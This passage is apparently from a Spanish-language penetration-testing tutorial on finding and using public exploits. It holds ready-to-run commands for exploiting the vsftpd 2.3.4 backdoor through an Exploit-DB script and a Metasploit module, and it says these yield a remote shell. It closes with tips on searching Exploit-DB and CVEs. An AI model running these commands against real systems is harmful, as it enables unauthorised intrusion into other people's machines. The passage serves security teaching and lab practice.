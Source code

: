 ```bash
python3 /usr/share/exploitdb/exploits/unix/remote/49757.py <IP-del-objetivo>
```

---

#### ✅ Alternativa: Buscar desde Metasploit

Abre Metasploit con:

```bash
msfconsole
```

Y busca:

```bash
search vsftpd 2.3.4
```

Resultado:

```bash
exploit/unix/ftp/vsftpd_234_backdoor
```

Cárgalo:

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS <IP>
run
```

¡Y listo! Si el exploit funciona, tendrás una shell remota.

---

### 🧠 Consejos útiles para buscar exploits

- Usa nombres exactos + versiones (`vsftpd 2.3.4`, `Apache 2.4.49`, `WordPress 5.7`)
- Añade `CVE-XXXX-XXXX` si tienes un CVE (por ejemplo: `searchsploit CVE-2021-41773`)
- Consulta sitios como:

  - [https://www.exploit-db.com](https://www.exploit-db.com)
  - [https://packetstormsecurity.com](https://packetstormsecurity.com)
  - [https://github.com](https://github.com)

---

### ✅ Resumen

| Elemento                 | Descripción                                                         |
| ------------------------ | ------------------------------------------------------------------- |
| ¿Qué es?                 | Buscar código que aprovecha vulnerabilidades conocidas              |
| ¿Cuándo hacerlo?         | Después de descubrir software, servicios o versiones vulnerables    |
| Herramientas principales | `searchsploit`, Exploit-DB, GitHub, Metasploit                      |
| ¿Dónde instalar?         | `searchsploit` en Kali o Ubuntu con `apt` o `git clone`             |
| Ejemplo práctico         | Buscar y explotar `vsftpd 2.3.4` usando `searchsploit` y Metasploit |

---